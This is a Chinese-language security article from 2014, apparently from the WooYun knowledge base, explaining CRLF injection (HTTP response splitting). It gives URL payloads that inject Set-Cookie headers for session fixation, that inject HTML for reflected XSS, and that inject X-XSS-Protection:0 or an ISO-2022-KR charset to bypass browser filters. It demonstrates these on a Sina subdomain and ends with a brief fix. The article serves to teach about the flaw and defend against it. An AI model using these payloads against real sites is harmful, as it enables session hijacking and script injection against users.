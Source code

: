 # CRLF Injection 漏洞的利用与实例分析

2014/06/29 16:17 | [phith0n](http://drops.wooyun.org/author/phith0n "由 phith0n 发布") | [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 背景

* * *

CRLF Injection 很少遇见，这次被我逮住了。我看 zone 中（[`zone.wooyun.org/content/13323`](http://zone.wooyun.org/content/13323)）还有一些同学对于这个漏洞不甚了解，甚至分不清它与 CSRF，我详细说一下吧。

CRLF 是”回车 + 换行”（\r\n）的简称。在 HTTP 协议中，HTTP Header 与 HTTP Body 是用两个 CRLF 分隔的，浏览器就是根据这两个 CRLF 来取出 HTTP 内容并显示出来。所以，一旦我们能够控制 HTTP 消息头中的字符，注入一些恶意的换行，这样我们就能注入一些会话 Cookie 或者 HTML 代码，所以 CRLF Injection 又叫 HTTP Response Splitting，简称 HRS。

HRS 是比 XSS 危害更大的安全问题，具体是为什么，我们往下看。

对于 HRS 最简单的利用方式是注入两个\r\n，之后在写入 XSS 代码，来构造一个 xss。

## 0x01 实例

* * *

举个例子，一般网站会在 HTTP 头中用 Location: http://baidu.com 这种方式来进行 302 跳转，所以我们能控制的内容就是 Location:后面的 XXX 某个网址。

所以一个正常的 302 跳转包是这样：

```
HTTP/1.1 302 Moved Temporarily 
Date: Fri, 27 Jun 2014 17:52:17 GMT 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Location: http://www.sina.com.cn 
```

但如果我们输入的是

```
http://www.sina.com.cn%0aSet-cookie:JSPSESSID%3Dwooyun 
```

注入了一个换行，此时的返回包就会变成这样：

```
HTTP/1.1 302 Moved Temporarily 
Date: Fri, 27 Jun 2014 17:52:17 GMT 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Location: http://www.sina.com.cn 
Set-cookie: JSPSESSID=wooyun 
```

这个时候这样我们就给访问者设置了一个 SESSION，造成一个“会话固定漏洞”。

当然，HRS 并不仅限于会话固定，通过注入两个 CRLF 就能造成一个无视浏览器 Filter 的反射型 XSS。

比如一个网站接受 url 参数 http://test.sina.com.cn/?url=xxx，xxx 放在 Location 后面作为一个跳转。如果我们输入的是

```
http://test.sina.com.cn/?url=%0d%0a%0d%0a<img src=1 onerror=alert(/xss/)> 
```

我们的返回包就会变成这样：

```
HTTP/1.1 302 Moved Temporarily 
Date: Fri, 27 Jun 2014 17:52:17 GMT 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Location:
<img src=1 onerror=alert(/xss/)> 
```

之前说了浏览器会根据第一个 CRLF 把 HTTP 包分成头和体，然后将体显示出来。于是我们这里

为什么说是无视浏览器 filter 的，这里涉及到另一个问题。

浏览器的 Filter 是浏览器应对一些反射型 XSS 做的保护策略，当 url 中含有 XSS 相关特征的时候就会过滤掉不显示在页面中，所以不能触发 XSS。

怎样才能关掉 filter？一般来说用户这边是不行的，只有数据包中 http 头含有 X-XSS-Protection 并且值为 0 的时候，浏览器才不会开启 filter。

说到这里应该就很清楚了，HRS 不正是注入 HTTP 头的一个漏洞吗，我们可以将 X-XSS-Protection:0 注入到数据包中，再用两个 CRLF 来注入 XSS 代码，这样就成功地绕过了浏览器 filter，并且执行我们的反射型 XSS。

所以说 HRS 的危害大于 XSS，因为它能绕过一般 XSS 所绕不过的 filter，并能产生会话固定漏洞。

* * *

我们来一个真实案例吧。 新浪某分站含有一个 url 跳转漏洞，危害并不大，于是我就想到了 CRLF Injection，当我测试

```
http://xxx.sina.com.cn/?url=%0a%0d%0a%0d%3Cimg%20src=1%3E 
```

的时候，发现图片已经输出在页面中了，说明 CRLF 注入成功了：

![2014062816583715642_jpg.jpg](img/img1_u146_jpg.jpg)

那么我们试试 XSS 看看：

![2014062816585822978_jpg.jpg](img/img2_u24_jpg.jpg)

看控制台，果然被 XSS Filter 拦截了。

那么我们就注入一个

```
X-XSS-Protection:0 
```

到数据包中，看看什么效果：

![2014062816593849016_jpg.jpg](img/img3_u25_jpg.jpg)

@mramydnei 还想到了一个利用字符编码来绕过 XSS Filter 的方法，当编码是 is-2022-kr 时浏览器会忽略%0f，这样我们在 onerror 后面加个%0f 就能绕过 filter，前提是注入一个

```
<meta charset=ISO-2022-KR> 
```

![2014062817010832293_jpg.jpg](img/img4_u16_jpg.jpg)

当然，在 Location:这里注入只有 webkit 内核浏览器才能够利用，其他浏览器可能会跳转、出错。不过对于 chrome 的使用量来说，危害已经足够了。

## 0x02 修复

* * *

如何修复 HRS 漏洞，当然是过滤\r 、\n 之类的换行符，避免输入的数据污染到其他 HTTP 头。

版权声明：未经授权禁止转载 [phith0n](http://drops.wooyun.org/author/phith0n "由 phith0n 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [一起针对国内企业 OA 系统精心策划的大规模钓鱼攻击事件](http://drops.wooyun.org/tips/2562)
*   [Dionaea 蜜罐指南](http://drops.wooyun.org/papers/4584)
*   [IIS WebDAV 安全配置](http://drops.wooyun.org/papers/238)
*   [Linux 通配符可能产生的问题](http://drops.wooyun.org/papers/2448)
*   [代码审计之逻辑上传漏洞挖掘](http://drops.wooyun.org/papers/1957)
*   [Shellshock 漏洞回顾与分析测试](http://drops.wooyun.org/papers/3268)